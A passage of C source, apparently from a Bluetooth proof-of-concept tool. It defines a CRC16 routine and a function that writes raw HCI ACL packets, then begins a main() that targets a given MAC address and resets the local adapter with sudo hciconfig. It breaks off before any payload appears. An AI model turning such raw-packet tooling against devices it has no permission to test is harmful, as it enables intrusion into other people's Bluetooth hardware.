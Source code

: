 ```c++
  0x5a00, 0x9ac1, 0x9b81, 0x5b40, 0x9901, 0x59c0, 0x5880, 0x9841,
  0x8801, 0x48c0, 0x4980, 0x8941, 0x4b00, 0x8bc1, 0x8a81, 0x4a40,
  0x4e00, 0x8ec1, 0x8f81, 0x4f40, 0x8d01, 0x4dc0, 0x4c80, 0x8c41,
  0x4400, 0x84c1, 0x8581, 0x4540, 0x8701, 0x47c0, 0x4680, 0x8641,
  0x8201, 0x42c0, 0x4380, 0x8341, 0x4100, 0x81c1, 0x8081, 0x4040
};

uint16_t crc16(uint16_t crc, const void *buf, size_t size) {
  const uint8_t *p;

  p = buf;

  while (size--)
    crc = crc16_tab[(crc ^ (*p++)) & 0xFF] ^ (crc >> 8);

  return crc;
}

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
```